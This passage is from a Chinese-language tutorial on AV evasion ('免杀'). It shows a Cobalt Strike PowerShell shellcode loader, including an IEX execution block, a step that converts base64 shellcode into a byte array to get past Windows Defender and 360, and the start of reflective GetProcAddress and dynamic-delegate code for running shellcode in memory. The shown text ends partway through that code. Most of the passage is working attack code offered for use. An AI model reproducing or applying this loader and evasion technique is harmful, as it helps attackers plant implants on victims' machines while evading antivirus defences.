 ```text
If ([IntPtr]::size -eq 8) {
	start-job { param($a) IEX $a } -RunAs32 -Argument $DoIt | wait-job | Receive-Job
}
else {
	IEX $DoIt
}
```

然后直接运行生成的powershell脚本，微软的Defender跟360都直接秒杀了

![](https://image.3001.net/images/20200911/1599792604.png!small)

## 0x02 Powershell免杀

现在把FromBase64String改成FromBase65String，那就解决掉FromBase64String，直接改成byte数组。

```text
$string = ''
$s = [Byte[]]$var_code = [System.Convert]::FromBase64String('【cs生成的shellcode】')
$s |foreach { $string = $string + $_.ToString()+','}
```

![](https://image.3001.net/images/20200911/1599792772.png!small)

然后输入$string查看转码后的值，发现进度条拉到顶都看不完。

![](https://image.3001.net/images/20200911/1599792826.png!small)

此时把变量文件输出到文件中查看，有些用户权限不够会报错，更换路径就行了。

```text
$string > c:\1.txt
```

![](https://image.3001.net/images/20200911/1599793747.png!small)

```text
Set-StrictMode -Version 2

$DoIt = @'
function func_get_proc_address {
	Param ($var_module, $var_procedure)		
	$var_unsafe_native_methods = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$var_gpa = $var_unsafe_native_methods.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
	return $var_gpa.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($var_unsafe_native_methods.GetMethod('GetModuleHandle')).Invoke($null, @($var_module)))), $var_procedure))
}

function func_get_delegate_type {
	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $var_parameters,
		[Parameter(Position = 1)] [Type] $var_return_type = [Void]
	)

	$var_type_builder = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
	$var_type_builder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $var_parameters).SetImplementationFlags('Runtime, Managed')
	$var_type_builder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $var_return_type, $var_parameters).SetImplementationFlags('Runtime, Managed')
```